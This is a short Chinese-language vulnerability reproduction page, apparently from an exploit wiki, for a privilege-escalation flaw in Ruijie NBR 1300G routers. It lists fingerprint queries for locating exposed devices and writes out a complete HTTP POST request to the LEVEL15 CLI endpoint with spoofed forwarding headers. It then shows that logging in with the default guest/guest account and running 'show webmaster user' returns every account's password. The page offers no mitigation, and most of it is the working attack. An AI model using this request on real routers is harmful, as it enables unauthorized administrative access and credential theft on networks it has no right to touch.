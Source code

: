 # 锐捷 NBR 1300G路由器 越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR 1300G路由器 越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="锐捷网络 --NBR路由器--登录界面"</a-checkbox></br>

<a-checkbox checked>app="Ruijie-NBR路由器"	</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/ruijie-35.png)



查看流量发现 CLI命令流量



![img](/assets/PeiQi-Wiki/img/ruijie-36.png)



请求包为



```plain
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```



测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）



登录后发送请求包，执行CLI命令 `(show webmaster user)` 查看用户配置账号密码



![img](/assets/PeiQi-Wiki/img/ruijie-37.png)



成功获取所有用户的账号密码



```plain
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```



## 